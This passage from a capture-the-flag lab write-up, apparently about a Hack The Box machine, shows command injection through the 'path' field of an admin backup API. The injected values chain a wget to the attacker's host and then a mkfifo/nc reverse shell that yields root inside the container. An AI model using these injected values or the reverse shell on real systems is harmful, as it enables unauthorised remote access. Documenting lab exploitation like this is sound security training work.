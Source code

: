```http
```

It worked, but the backup file name was appended at the end of my command.

```bash
$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.193 - - [03/Mar/2023 07:45:05] code 404, message File not found
10.10.11.193 - - [03/Mar/2023 07:45:05] "GET /app_backkup.tar HTTP/1.1" 404 -
```

I added a semicolon and a '#' to comment out the rest of the command.

```json
{
"path": "/etc/passwd; wget 10.10.14.8 ; #"
}
```

This time it requested only what I asked.

```bash
10.10.11.193 - - [03/Mar/2023 07:47:19] "GET / HTTP/1.1" 200 -
```

I knew I could get code execution. I tried my usual reverse shell, but it failed. Bash was not installed on the server. I tried a different reverse shell using sh.

```http
POST /admin/backup HTTP/1.1
Host: api.mentorquotes.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Authorization: JWT


{
"path": "; mkfifo /tmp/aaaa; nc 10.10.14.11 4444 0</tmp/aaaa | /bin/sh >/tmp/aaaa 2>&1; rm /tmp/aaaa; #"
}
```

This one worked.

```bash
$ nc -klvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.11.193] 35401

whoami
root

pwd
/app

hostname
a6fe36f9a4e5

cd /home/svc

ls
user.txt

cat user.txt
REDACTED
```